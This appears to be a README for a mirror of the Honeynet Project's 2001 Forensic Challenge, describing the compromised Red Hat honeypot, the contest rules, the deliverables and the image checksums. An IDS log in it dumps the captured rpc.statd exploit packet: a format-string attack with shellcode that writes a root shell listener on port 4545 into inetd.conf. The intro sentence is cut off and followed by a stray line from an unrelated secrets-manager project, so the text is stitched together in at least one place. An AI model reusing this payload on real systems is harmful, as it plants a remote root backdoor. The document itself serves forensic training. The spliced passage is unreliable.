 ===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc)

Directories and files
~~~~~~~~~~~~~~~~~~~~~

You can find BZ2 compressed partition images in the ``partition-images/``
directory.

Results from the reference analysis by David Dittrich for the Honeynet
Project and all 13 contestants are found in the ``results/`` directory.

The file ``timestamp.txt`` is the original timestamped file with
MD5 hashes of the original images, for "chain of custody" style
integrity validation.  As the new files are now compressed with
a different algorithm, the old ``.gz`` MD5 hashes are useless,
but the uncompressed files should still hash the same.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  `Introduction <#intro>`__ 
-  `The Challenge <#challenge>`__
-  `The Rules <#rules>`__
-  `Partition images <images.html>`__
-  `Frequently Asked Questions about the Challenge <faq.html>`__
-  `Results of the Challenge <results/index.html>`__

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  [email protected]
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume
   the clock on the IDS was synchronized with an NTP reference
   time source.)
#. Identify as much as possible about the intruder(s).
#. List all the files that were added/modified by the intruder.
   Provide an analysis of these programs (including
   decompilation or disassembly where necessary to determine
   their function and role in the incident.)
#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?
#. Was there a "rootkit" or other post-concealment trojan horse
   programs installed on the system? If so, what operating
   system programs were replaced and how could you get around
   them? Hint: If you don't know what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__
#. What is publicly known about the source of any programs found
   on the system? (e.g., their authors, where source code can be
   found, what exploits or advisories exist about them, etc.)
#. Build a time line of events and provide a detailed analysis
   of activity on the system, noting sources of supporting or
   confirming evidence (elsewhere on the system or compared with
   a known "clean" system of similar configuration.)
#. Provide a report suitable for management or news media
   (general aspects of the intrusion without specific
   identifying data).
#. Provide an advisory for use within the home organization (a
   fictitious university, "honeyp.edu", in this case, where I
   hold an honorary Doctorate, by the way) to explain the key
   aspects of the vulnerability exploited, how to detect and
   defend against this vulnerability, and how to determine if
   other systems were similarly compromised.
#. Produce a cost-estimate for this incident using the following
   guidelines and method:

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your
   annual salary is $70,000 and that there are no user-related
   costs. (If you work as a team, break out hours by person, but
   all members should use the same annual salary. Please also
   include a brief description of each investigator's number of
   years of experience in the fields of system administration,
   programming, and security, just to help us compare the number
   of hours spent with other entrants).

To summarize (and standardize) the deliverables, please produce
the following:

::

      File                   Contents
      ---------------------------------------------------------------------
      index.txt              Index of files/directories submitted
                             (including any not listed below)
      timestamp.txt          Timestamp of MD5 checksums of all files
                             listed and submitted (dating when produced
                             -- see deadline information below)
      costs.txt              Incident cost-estimate
      evidence.txt           Time line and detailed (technical) analysis.
                             (Use an Appendix, and/or mark answers to
                             questions above with "[Q1]", etc.)
      summary.txt            Management and media (non-technical) summary
      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within
                             your organization
      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or
                             dissassembly listings) from files on the
                             compromised file system, which are referenced in
                             the previous files

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose,
   provided that the judges are able to readily interpret your
   results and duplicate or verify their accuracy using publicly
   available means (i.e., don't expect us all to have a copy of
   your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is Dan Farmer and Wietse Venema's `The
   Coroner's Toolkit
   (TCT) <http://www.porcupine.org/forensics/tct.html>`__. If
   you want examples of the use of TCT, or other
   tools/techniques, see the Forensics section of the following
   web page:

   `http://staff.washington.edu/dittrich/ <https://staff.washington.edu/dittrich/>`__

   No matter what tools/methods you choose, please make sure you
   explain them in your analysis and cite references to
   resources (e.g., RFCs, CERT or SANS "how to" documents) to
   help others learn by example. Don't forget: this is a
   Honeynet Project brainchild, so learning is what it's all
   about. And fun. It's all about learning and fun. Oh yeah, and
   security. Learning, fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a
   Top 20, you'll have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the
   judges can quickly and easily consume the information, and
   such that its authenticity, time of production, and integrity
   can be verified independently. (e.g., ISO 9660 CD-ROM or
   ``.tar`` archive, with digital time stamps, and PGP
   signatures and/or MD5 checksums.)
   Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE FILE
   SYSTEM. We already have a copy of the file system and its
   contents. Just note the path (e.g., "[See file /bin/foo]").
-  All submissions **MUST** be time stamped prior to 00:00 GMT
   on Monday, February 19, 2001 [**not** February 15 as the
   announcement email said], and delivery to the judges
   initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be
   postmarked by this time. The digital time stamps and
   postmarks will be used to determine the 20 "Hacking Exposed"
   book winners.) One free digital time stamping service you can
   use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .
-  All submissions should be sent (or shipping address arranged,
   if CD-ROMs are being produced) to
   `[email protected] </cdn-cgi/l/email-protection#52313a333e3e3
73c3537123a3d3c372b3c37267c3d20356d012730383731266f063a3772143d2
0373c213b3172113a333e3e373c3537580127303f3b21213b3d3c>`__.
-  The person who hacked the box is NOT eligible, nor are
   members of the Honeynet Project. Members of the companies
   employing Honeynet Project members are eligible (and
   encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to
   other entrants.
-  Entries must be written in English (UK and Aussie English
   accepted, but go light on the regional slang, please! I only
   have a copy of "*Best of Aussie Slang*," and the other judges
   don't live in Seattle.)
-  Only one entry per household, please. Must be sentient to
   enter. Sorry, no Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners
selected and announced on Monday, March 19, 2001. All decisions
of the judges are final (no recounts or legal challenges by
teams of grossly overpaid lawyers will be tolerated!).

After the winners are announced, all entries will be posted for
the security community to review. We hope that the community can
better learn from and improve from all the different techniques
that different people and organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture
all of the blackhat's keystrokes as he exploited, accessed, and
modified the honeypot! We will release the Honeypot Project's
analysis of the hacked system, as well as the blackhat's
keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/
